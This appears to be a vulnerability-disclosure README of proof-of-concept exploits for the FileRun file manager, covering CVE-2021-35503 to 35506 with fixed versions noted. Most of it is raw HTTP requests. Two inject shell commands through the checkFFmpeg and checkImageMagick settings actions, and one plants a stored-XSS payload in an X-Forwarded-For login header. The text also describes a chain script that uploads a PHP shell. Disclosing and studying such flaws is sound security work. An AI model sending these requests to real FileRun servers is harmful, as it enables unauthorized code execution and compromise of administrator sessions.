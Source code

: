 # Filerun Proof of Concepts

The `filerun.exploit.chain.py` exploits CVE-2021-35505
and CVE-2021-35503 to upload a PHP shell if an administrator
reviews the poisoned activity log feed.

## Multiple Remote Code Execution (authenticated)

### CVE-2021-35504
An attacker can abuse the *checkFFmpeg* action to trigger code execution.

```
POST /?module=cpanel&section=settings&page=image_preview&action=checkFFmpeg HTTP/1.1
Host: localhost
Content-Length: 29
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/?module=cpanel
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: FileRunSID=887bebeb478e22731a2cabdeb0cf876e
Connection: close

path=ffmpeg%7Cecho%20%60ls%60
```

This is fixed in version "2021.06.27".

### CVE-2021-35505

An attacker can abuse the *checkImageMagick* action to trigger code execution.

```
POST /?module=cpanel&section=settings&page=image_preview&action=checkImageMagick HTTP/1.1
Host: localhost
Content-Length: 40
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/?module=cpanel
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: FileRunSID=887bebeb478e22731a2cabdeb0cf876e
Connection: close

mode=exec&path=convert%7Cecho%20%60ls%60
```

This is fixed in version "2021.06.27".


## Stored Cross-Site-Scripting (authenticated)

### CVE-2021-35506

An attacker can upload an HTML file with malicious javascript code.
The code is executes when a user opens this file using the HTML-Editor.

This is fixed in version "2021.06.27".


## Stored Cross-Site-Scripting (unauthenticated)
### CVE-2021-35503
Sending a malicious *X-Forwarded-For* header results in stored XSS in the admin backend logs.

Proof of concept request:
```
POST /?module=fileman&page=login&action=login HTTP/1.1
Host: localhost
Content-Length: 66
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://localhost/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
X-Forwarded-For: <iMg onerror=alert(1) src=a>
Cookie: FileRunSID=a99a9ba3867833fd1af9b6549eb83524
Connection: close

username=filerun&password=password&otp=&two_step_secret=&language=
```

This is fixed in version "2021.06.27".
